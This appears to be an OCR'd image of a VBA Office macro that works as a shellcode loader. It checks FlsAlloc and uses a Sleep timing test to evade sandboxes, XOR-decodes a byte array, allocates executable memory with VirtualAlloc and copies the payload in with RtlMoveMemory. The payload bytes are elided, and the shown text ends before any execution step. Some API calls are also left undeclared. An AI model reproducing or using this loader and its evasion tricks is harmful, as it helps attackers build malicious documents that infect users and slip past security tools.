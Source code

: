 ```vba

Private Declare PtrSafe Function FlsAlloc Lib "KERNEL32" (ByVal callback As LongPtr) As LongPtr

Function mymacro()

Dim allocRes As LongPtr

Dim buf As Variant

Dim addr As LongPtr

Dim counter As Long

Dim data As Long

Dim res As Long

Dim t1 As Date

Dim t2 As Date

Dim time As Long

allocRes = FlsAlloc(0)

If IsNull(allocRes) Then

End

End If

t1 = Now()

Sleep (2000)

t2 = Now()

time = DateDiff("s", t1, t2)

If time < 2 Then

Exit Function

End If

buf = Array(...)

For i = 0 To UBound(buf)

buf(i) = buf(i) Xor 188

Next i

addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

For counter = LBound(buf) To UBound(buf)

data = buf(counter)

res = RtlMoveMemory(addr + counter, data, 1)

Next counter

```